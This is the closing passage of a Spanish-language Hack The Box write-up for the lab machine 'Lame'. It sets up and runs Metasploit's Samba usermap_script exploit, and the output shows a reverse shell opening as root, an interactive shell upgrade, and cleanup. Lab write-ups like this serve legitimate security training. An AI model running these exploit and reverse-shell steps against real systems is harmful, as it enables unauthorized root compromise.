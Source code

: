 Solamente cambiamos lo que nos pide, que sería el **RHOST, LHOST y el LPORT**:
```bash
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

msf6 exploit(multi/samba/usermap_script) > set LHOST Tu_IP
LHOST => Tu_IP

msf6 exploit(multi/samba/usermap_script) > set LPORT 443
LPORT => 443
```

Y ahora si para terminar solo damos en exploit y aplicara todo el proceso:
```bash
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on Tu_IP:443 
[*] Command shell session 1 opened (Tu_IP:443 -> 10.10.10.3:48482) at 2023-03-16 16:07:21 -0600

whoami
root
script /dev/null -c bash
root@lame:/# whoami
root
root@lame:/# id
uid=0(root) gid=0(root)
root@lame:/# exit
exit
```

Antes de terminar todo, salimos con exit y debemos apagar la base de datos de **Metasploit**:
```bash
root@lame:/# exit
exit
Script started, file is /dev/null
Script started, file is /dev/null
Script done, file is /dev/null
^C
Abort session 1? [y/N]  y

[*] 10.10.10.3 - Command shell session 1 closed.  Reason: User exit
msf6 exploit(multi/samba/usermap_script) > exit
                                                                                                                                                  
┌──(root㉿kali)-[/home/…/Retired_Easy_machines/Lame/OSCP_Style/nmap]
└─# msfdb stop 
[+] Stopping database
```

<br>
# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
